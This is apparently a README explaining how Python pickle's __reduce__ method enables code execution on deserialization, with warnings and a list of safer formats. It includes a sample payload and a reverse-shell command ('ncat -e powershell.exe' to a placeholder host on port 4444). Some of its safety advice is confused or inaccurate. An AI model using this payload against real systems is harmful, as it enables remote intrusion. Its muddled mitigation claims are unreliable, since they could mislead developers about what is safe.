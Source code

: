 # Malicious Pickle

A dangerous misuse of Python's pickle module—specifically demonstrating how arbitrary code execution can be embedded inside serialized Python objects.

What GNAT is, what it does, and why this is important (or dangerous).

## 🔍 What is GNAT in This Code?
```
class GNAT:
    def __reduce__(self):
        return (os.system, ('id',))
```        
GNAT is a custom class with a special method __reduce__() defined.
__reduce__() is part of Python’s pickling protocol. It's used to tell pickle how to serialize and deserialize an object. Here, it returns a tuple: (os.system, ('id',)). This tells pickle that when unpickling, it should run os.system("id").


💣 What This Code Does
It defines a malicious class (GNAT) that triggers a shell command when deserialized.
It serializes it using pickle.dumps() and base64-encodes the result.
Upon deserialization (which is not shown here, but implied), the command id will be executed via os.system.

☠️ Potential Exploitation
Replace:
```
return (os.system, ('id',))
```

with:
```
return (os.system, ('ncat -e powershell.exe hack.man 4444',))
```

And the object will, when deserialized, open a reverse shell to hack.man on port 4444. This is a serious remote code execution (RCE) vulnerability.

🔒 Why This Is Important
➤ pickle is not safe for untrusted input
If you load a pickle file (pickle.load(...)) from an untrusted source, it may execute arbitrary code.

This is a classic deserialization attack—just like Java's ObjectInputStream or PHP's unserialize.

➤ Used in:
Security testing (Red Teaming / Exploits)
Malware payloads
Serialization-based attacks

## 🧪 The Safe Way to Serialize
If you need safe serialization, use:
- json for primitive types
- yaml.safe_load (not yaml.load)
- protobuf or MessagePack for structured data

🧾 Summary
- GNAT here is a custom class that uses Python's __reduce__() to demonstrate code execution via pickling.
- The code is a clear example of how malicious payloads can be crafted using Python's pickle module.
- Never unpickle data from untrusted sources.
- You ** cannot safely unpickle untrusted data — ever ** — even with yaml.**safe_load**. pickle is inherently unsafe for untrusted input because it allows arbitrary code execution. Think of pickle as a trusted-only binary serialization format, not a secure transport or storage mechanism.

## ✅ What You Should Do Instead
1. Use YAML, JSON, or MessagePack for Safe Data Exchange (signed as trusted)
If you're receiving data from untrusted sources:
- Use yaml.safe_load or json.loads
- Only parse known-safe formats

2. Replace Pickle With Safer Alternatives
Use:
- json — for basic types (dict, list, str, int, etc.)
- PyYAML (yaml.safe_load) — for structured config-like data
- msgpack — for compact binary-safe JSON
- protobuf / cap’n proto / flatbuffers — for high-performance structured binary formats

3. Use a custom deserializer
If you absolutely need to deserialize Python objects:
- Write a whitelist of allowed classes/types
- Use something like [pickle.loads(data, fix_imports=False, encoding="bytes")] carefully
- Or better, design your own safe serialization format

** Reason: The DEP (Data Execution Prevention) problem. You cannot execute yaml and json, but you can execute pickle.loads() as it is basically a system call. **
